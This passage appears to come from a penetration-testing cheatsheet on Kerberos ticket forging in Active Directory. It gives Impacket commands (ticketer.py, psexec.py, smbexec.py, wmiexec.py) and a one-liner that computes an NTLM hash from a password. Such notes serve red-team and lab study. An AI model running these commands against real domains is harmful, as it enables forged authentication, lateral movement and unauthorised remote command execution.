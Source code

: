 * with aesKey

{% code overflow="wrap" %}
```
ticketer.py -aesKey $AES_KEY -domain-sid $DOMAIN_SID -domain $DOMAIN $DOMAIN_USER
```
{% endcode %}

* Set TGT for impacket use

```powershell
export KRB5CCNAME=<TGT_ccache_file>
```

* Execute remote commands
  * `psexec.py $DOMAIN/$DOMAIN_USER@$REMOTE_HOSTNAME -k -no-pass`
  * `smbexec.py $DOMAIN/$DOMAIN_USER@$REMOTE_HOSTNAME -k -no-pass`
  * `wmiexec.py $DOMAIN/$DOMAIN_USER@$REMOTE_HOSTNAME -k -no-pass`
* [Impacket](https://github.com/SecureAuthCorp/impacket/releases/)

### Skeleton Ticket

#### Extra Mile

* NTLM from password
  * `python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'`
* [Cheatsheet](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
* [Mimikatz History](https://ivanitlearning.wordpress.com/2019/09/07/mimikatz-and-password-dumps/)
